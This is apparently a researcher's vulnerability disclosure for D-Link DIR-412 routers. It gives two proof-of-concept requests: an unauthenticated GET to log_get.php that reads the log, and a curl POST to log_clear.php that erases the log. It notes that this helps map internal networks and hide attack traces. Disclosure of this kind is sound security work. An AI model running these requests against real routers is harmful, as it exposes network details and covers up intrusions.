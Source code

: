 #### info of vulnerability
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-412(A1-1.14WW)   

Poc1: http://targetip/log_get.php
Attackers can get log file by this request.
![poc1](https://github.com/dahua966/Routers-vuls/blob/master/DIR-412/poc1.png)
Poc2: curl -d "act=clear&logtype=sysact" "http://targetip/log_clear.php"
Attackers can clear log file by this request.
![poc2](https://github.com/dahua966/Routers-vuls/blob/master/DIR-412/poc2.png)
#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Jian-bin Ye

Wei Xie

Zhen-hua Wang

En-Ze Wang
